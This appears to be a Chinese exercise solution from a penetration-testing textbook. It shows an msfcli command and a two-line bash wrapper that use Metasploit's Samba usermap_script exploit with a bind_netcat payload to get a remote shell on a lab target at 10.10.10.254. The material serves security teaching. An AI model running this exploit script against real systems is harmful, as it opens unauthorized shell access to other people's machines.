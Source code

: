 ## 1-4 练习

> 使用msfcli命令行接口编写一个Shell脚本程序，实现用户只需输入目标Linux靶机的IP地址作为参数，就可以使用usermap_script漏洞渗透攻击模块，获得靶机的远程Shell访问。

-----------------

## 解答

该命令在书中 1.6.3节 出现过：

```sh
msfcli multi/samba/usermap_script PAYLOAD=cmd/unix/bind_netcat RHOST=10.10.10.254 E
```

将其简单封装成 shell 脚本即可，`vi /tmp/pt.sh`，写入以下内容（ `$1` 表示取脚本第一个入参）

```sh
#!/bin/bash
msfcli multi/samba/usermap_script PAYLOAD=cmd/unix/bind_netcat RHOST=$1 E
```

然后执行命令 `chmod u+x /tmp/pt.sh` 赋予该脚本执行权限，

最后调用命令 `/tmp/pt.sh 10.10.10.254` 即可渗透到靶机 10.10.10.254
